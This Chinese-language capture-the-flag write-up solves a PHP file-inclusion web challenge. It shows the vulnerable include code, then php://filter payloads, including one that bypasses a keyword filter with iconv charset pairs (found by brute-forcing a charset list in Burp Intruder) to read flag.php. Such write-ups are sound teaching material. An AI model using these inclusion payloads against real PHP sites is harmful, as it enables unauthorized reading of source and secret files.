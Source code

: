```yaml
---
title: (CTF WP)文件包含 
date: 2023-03-17 08:13:16
keywords:
description: 本文是攻防世界 Web 题目文件包含的 Write Up，欢迎大家交流讨论。
---
```


## 题目介绍

这是攻防世界的一道 Web 题目，从题目描述和给出的源代码看，这是一个php的文件包含题目。

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

## WriteUp

看到有 include 函数，尝试了使用 php://filter 伪协议，做了下面几个尝试：

```php
# 做这个尝试的时候提示 do not hack ! 应该是对 read 做了过滤
?filename=php://filter/read=convert.base64-encode/resource=flag.php
# 使用这个尝试的时候，提示 you have use the right filter , but error usage
?filename=php://filter/convert.iconv.UTF-8.UTF-7/resource=index.php
```

尝试到这里的时候，停了下来。根据提示应该比较接近答案了，但是仍不知道突破口在什么地方。参考了前人的WP，才发现 iconv 过滤支持的编码格式很多，需要借助 Burpsuite 来尝试各类组合。

在 BP 中拦截请求后，将请求发送到 Intruder ，选择两个字符集做为参数。

从 PHP 官方文档中找到支持的所有字符集列表做为参数。

- UCS-4*
- UCS-4BE
- UCS-4LE*
- UCS-2
- UCS-2BE
- UCS-2LE
- UTF-32*
- UTF-32BE*
- UTF-32LE*
- UTF-16*
- UTF-16BE*
- UTF-16LE*
- UTF-7
- UTF7-IMAP
- UTF-8*
- ASCII*
- EUC-JP*
- SJIS*
- eucJP-win*
- SJIS-win*
- ISO-2022-JP
- ISO-2022-JP-MS
- CP932
- CP51932
- SJIS-mac (alias: MacJapanese)
- SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
- SJIS-Mobile#KDDI (alias: SJIS-KDDI)
- SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
- UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
- UTF-8-Mobile#KDDI-A
- UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
- UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
- ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
- JIS
- JIS-ms
- CP50220
- CP50220raw
- CP50221
- CP50222
- ISO-8859-1*
- ISO-8859-2*
- ISO-8859-3*
- ISO-8859-4*
- ISO-8859-5*
- ISO-8859-6*
- ISO-8859-7*
- ISO-8859-8*
- ISO-8859-9*
- ISO-8859-10*
- ISO-8859-13*
- ISO-8859-14*
- ISO-8859-15*
- ISO-8859-16*
- byte2be
- byte2le
- byte4be
- byte4le
- BASE64
- HTML-ENTITIES (alias: HTML)
- 7bit
- 8bit
- EUC-CN*
- CP936
- GB18030
- HZ
- EUC-TW*
- CP950
- BIG-5*
- EUC-KR*
- UHC (alias: CP949)
- ISO-2022-KR
- Windows-1251 (alias: CP1251)
- Windows-1252 (alias: CP1252)
- CP866 (alias: IBM866)
- KOI8-R*
- KOI8-U*
- ArmSCII-8 (alias: ArmSCII8)

![image-20230317081611716](ctf-wp-fileinclude/image-20230317081611716.png)

最后成功找到可以绕过过滤的字符集。

```php
?filename=php://filter/convert.iconv.EUC-JP%2a.UCS-4*/resource=flag.php
```

## 参考资料

1. [Multibyte String](https://www.php.net/manual/en/mbstring.supported-encodings.php)
1. [详解php://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)
1. [泰山杯：文件包含](https://blog.csdn.net/qq_36618918/article/details/128674773)
